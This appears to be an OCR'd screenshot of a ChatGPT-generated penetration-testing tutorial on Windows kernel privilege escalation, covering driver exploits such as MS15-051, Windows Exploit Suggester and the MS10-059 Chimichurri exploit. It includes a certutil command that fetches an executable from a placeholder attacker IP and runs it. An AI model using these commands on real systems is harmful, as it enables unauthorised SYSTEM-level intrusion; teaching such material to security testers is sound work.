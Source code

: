     Exploiting Vulnerable Drivers:
        Driver Exploits: Identifying and exploiting vulnerabilities in kernel-mode drivers can provide attackers with SYSTEM-level access.
            Example: Exploiting the MS15-051 vulnerability, which involves a race condition in the win32k.sys driver.

            bash

        windows-exploit-suggester.py --database 2020-04-17-mssb.xls --sysinfo sysinfo.txt

            Explanation: Tools like Windows Exploit Suggester can help identify potential kernel vulnerabilities based on the system’s patch level, which can then be exploited using available public exploits.

Custom Kernel Exploit Development:

    Developing Custom Exploits: Advanced attackers may develop custom exploits tailored to specific kernel vulnerabilities. This involves understanding the kernel architecture, reverse engineering, and crafting shellcode.
        Example: Creating a custom exploit for MS14-058, a known vulnerability in the Windows kernel.

Using Chimichurri Exploit for Remote Shell Access:

    MS10-059 Chimichurri: A well-known exploit that provides a remote shell as SYSTEM on vulnerable Windows systems.

    bash

        certutil -urlcache -f http://<attacker-ip>/chimichurri.exe chimichurri.exe
        chimichurri.exe

            Explanation: The Chimichurri exploit leverages a vulnerability in Windows systems to gain remote SYSTEM-level access, providing a foothold for further exploitation.

Methodology and Tactics:
Kernel exploits are some of the most powerful tools in an attacker’s arsenal, providing the highest level of access on a system. Successful kernel exploitation requires deep knowledge of operating system internals and careful exploitation to avoid crashing the target system.

This extended content provides a more in-depth exploration of each section, adding advanced techniques, alternative tools, and detailed methodologies. By incorporating these details, the tutorial becomes a comprehensive guide for both novice and experienced security professionals, offering insights into how to effectively execute and understand each phase of a penetration test or red team operation.
ChatGPT can make mistakes. Check important info.